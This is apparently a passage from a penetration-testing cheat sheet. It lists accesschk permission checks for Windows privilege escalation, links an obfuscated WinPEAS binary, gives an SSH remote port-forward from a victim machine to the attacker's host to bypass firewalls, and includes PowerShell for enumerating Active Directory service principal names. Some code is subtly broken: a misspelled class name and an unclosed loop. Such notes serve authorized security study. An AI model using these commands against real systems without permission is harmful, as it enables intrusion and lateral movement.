 ```sh
C:\Inetpub>accesschk.exe -uwcqv "Authenticated Users" *
C:\> accesschk.exe -uwcqv "Authenticated Users" *
C:\> accesschk.exe -ucqv SSDPSRV
C:\> accesschk.exe -ucqv upnphost
```

This guide is useful: https://www.fuzzysecurity.com/tutorials/16.html

#### WinPEAS

Windows privelege escalation checker [Link](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/winPEAS/bin/Obfuscated%20Releases/winPEASx86.exe)




### Linux

Can use linux priv esc checker.

## Port forwarding

### Remote port forwarding

Traffic sent to victim port will be sent to our port instead. This can be used to bypass firewalls.

First, on victim machine:

```sh
ssh -N -R <our_ip>:<our_port_number>:127.0.0.1:<port_to_forward> <our_username>@<our_ip>
```

Then on our machine to verify:

```sh
ss -antp | grep "<out_port_number>"
```

## Active Directory

```powershell
[System.DirecrotyServices.ActiveDirectory.Domain]::GetCurrentDomain()
```

### Get all Service Principal Names (SPN's)

```powershell
cls
$search = New-Object DirectoryServices.DirectorySearcher([ADSI]"")
$search.filter = "(servicePrincipalName=*)"

## You can use this to filter for OU's:
## $results = $search.Findall() | ?{ $_.path -like '*OU=whatever,DC=whatever,DC=whatever*' }
$results = $search.Findall()

foreach( $result in $results ) {
	$userEntry = $result.GetDirectoryEntry()
	Write-host "Object Name = " $userEntry.name -backgroundcolor "yellow" -foregroundcolor "black"
	Write-host "DN      =      "  $userEntry.distinguishedName
	Write-host "Object Cat. = "  $userEntry.objectCategory
	Write-host "servicePrincipalNames"

	$i=1
	foreach( $SPN in $userEntry.servicePrincipalName ) {
		Write-host "SPN(" $i ")   =      " $SPN
		$i+=1
	}
	Write-host ""
```